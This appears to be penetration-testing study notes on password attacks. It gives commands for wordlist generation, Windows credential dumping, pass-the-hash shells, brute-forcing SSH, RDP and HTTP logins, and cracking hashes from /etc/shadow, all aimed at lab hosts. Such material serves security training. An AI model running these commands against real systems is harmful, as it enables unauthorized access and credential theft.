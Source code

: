 # Lists
## Files
 - /usr/share/wordlists/


## Commands
  - crunch
    ~~~
    # Create combinations
    crunch 6 6 0123456789ABCDEF -o crunch1.txt
    # Use a pre-defined character-set
    crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha
    # Generate list under custom rules
    crunch 8 8 -t ,@@^^%%%
      @ - Lower case alpha characters
      , - Upper case alpha characters
      % - Numeric characters
      ^ - Special characters including space
      if you have "Abc$#123" > ,@@^^%%%
    ~~~
  
  - on Windows
    ~~~
    fgdump.exe
    wce32.exe -w
    wce64.exe -w
    ~~~

  - pth-winexe
    ~~~
    export SMBHASH=<NTLMHASH>:<>
    pth-winexe -U <Username>% //<target host> cmd
    pth-winexe -U <Username>% //<target host> cmd
    ~~~

## Offline crack
  - John the ripper
    ~~~
    john hashes.txt
    ~~~

## Password Profiling
  ~~~
  cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt
  vim /etc/john/john.conf
    # Add two numbers to the end of each password
    $[0-9]$[0-9]
  ~~~

## Online cracking
  - HTTP
    - medusa
      ~~~
      medusa -h 10.11.1.219 -u admin -P password-file.txt -M http -m DIR:/admin -T 10
      ~~~

  - RDP
    ~~~
    ncrack -vv --user offsec -P password-file.txt rdp://10.11.1.35
    ~~~

  - Hydra - many many services
    - snmp
      ~~~
      hydra -l admin -P password-file.txt -v <host> <service>
      ~~~

    - ssh
      ~~~
      hydra -l root -P password-file.txt 10.11.1.219 ssh
      ~~~

## Identify hash
  - guess algorithm using hash-identifier
    ~~~
    hash-identifier
    ~~~
  - crack hashes
    ~~~
    john --wordlist=/usr/share/wordlists/rockyou.txt 127.0.0.1.pwdump
    john --rules --wordlist=/usr/share/wordlists/rockyou.txt 127.0.0.1.pwdump
    
    # If crack linux
    unshadow passwd-file.txt shadow-file.txt > unshadowed.txt
    john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
    ~~~

##  LM/NTLM




